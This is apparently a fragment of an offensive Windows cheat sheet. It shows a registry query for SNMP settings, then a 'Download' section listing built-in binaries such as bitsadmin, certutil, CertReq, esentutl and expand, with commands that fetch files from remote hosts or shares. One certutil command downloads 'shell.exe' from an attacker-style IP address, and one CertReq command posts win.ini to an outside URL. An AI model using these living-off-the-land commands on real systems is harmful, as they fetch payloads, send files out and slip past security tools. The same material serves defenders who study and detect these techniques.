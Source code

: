 ```
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
```

### Network Interfaces <a href="#network-interfaces" id="network-interfaces"></a>

### ARP table <a href="#arp-table" id="arp-table"></a>

## Download <a href="#download" id="download"></a>

Bitsadmin.exe

```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

CertReq.exe

```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```

Certutil.exe

```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```

Desktopimgdownldr.exe

```
set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

Diantz.exe

```
diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
```

Esentutl.exe

```
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```

Expand.exe

```
expand \\webdav\folder\file.bat c:\ADS\file.bat
```

Extrac32.exe

```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```
